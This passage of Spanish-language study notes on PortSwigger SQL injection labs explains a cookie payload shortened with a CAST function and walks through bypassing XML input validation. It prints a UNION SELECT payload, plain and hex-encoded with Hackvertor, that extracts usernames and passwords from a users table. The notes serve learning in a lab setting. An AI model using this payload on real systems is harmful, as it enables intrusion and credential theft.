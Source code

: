 > Due to the cookie value length limit the payload is shortened by using `limit 1`, and the actual cookie value replace with just a letter `x`. SQL Injection used the [CAST function](https://portswigger.net/web-security/sql-injection/blind).

![](Pasted%20image%2020250222223137.png)

Claro la contraseña varia, se actualiza siempre, no es esa. 

### LAB: SQLi + Bypass validation with XML Encoding `admin credentials` `storeId`

* En este ataque tan simple como usar hackvertor para encoding hexadecimal y usaremos el payload que antes hemos visto de consulta de varias columnas en una sola consulta de columna, con `||'~'||` 

```js
<storeId>
	1 UNION SELECT username ||'~'|| password FROM users--
</storeId>
//Pero antes de ello encodeado a hexadecimal -> con hackvertor extension.
<@hex_entities>
	1 UNION SELECT username ||'~'|| password FROM users--
</@hex_entities>
```
